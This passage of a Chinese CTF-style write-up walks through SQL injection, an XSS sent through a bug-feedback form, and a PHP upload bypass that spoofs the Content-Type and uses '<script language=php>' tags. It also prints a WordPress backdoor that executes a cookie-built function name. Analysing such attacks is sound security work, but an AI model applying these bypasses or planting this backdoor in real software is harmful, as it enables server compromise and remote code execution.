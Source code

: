 然后注入出后台管理员账号密码。

然后但是不知道后台啊，所以将注入 concat 出一个 xss 。从 bug 反馈那边打到后台。

（这里是吐槽：管理员的密码跑出不来。最后手抽去 Google 了一下才得到密码。）

进入后台后有上传点，尝试直接上传不成功，修改上传的包

```
text/php -> image/jpg

```

发现可上传，但是其实没搞定。后来，百度了几个免杀 PHP 一句话之类的。发现，如果 PHP 标签不是

```
<?php ?> 

```

而是

```
<script language=php></script>

```

就可以绕过。

然后应该是过滤了很多函数，尝试直接列目录和读文件，发现目录下有个 wordpress 的压缩包。赌五毛就是看压缩包日 blog 了。

然后根据时间将压缩包里的文件都列出来，发现

```
/wp-include/revision.php

```

这个文件是最近修改过的， diff 了下官方版本的 wordpress 发现里面多了这么一段。

```
function wp_check_my_session(){ 
if(isset($_COOKIE['wp-ssesion'])) {
    $_check=($_COOKIE['wp-sesion'][0]^$_COOKIE['wp-sesion'][1]).
            ($_COOKIE['wp-sesion'][2]^$_COOKIE['wp-sesion'][3]).
            ($_COOKIE['wp-sesion'][4]^$_COOKIE['wp-sesion'][5]).
            ($_COOKIE['wp-sesion'][6]^$_COOKIE['wp-sesion'][7]).
            ($_COOKIE['wp-sesion'][8]^$_COOKIE['wp-sesion'][9]).
            ($_COOKIE['wp-sesion'][10]^$_COOKIE['wp-sesion'][11]);
    $_check($_COOKIE['wp-ssesion']);
}
else{
return 0;
}

```

看了眼应该是后门，用户可以自定义一个六位的函数并执行，第一反应是 system 。

然后就写了个程序，直接暴力跑了下所有的可能，随便拿了一个出来。屡次尝试后发现不成功。
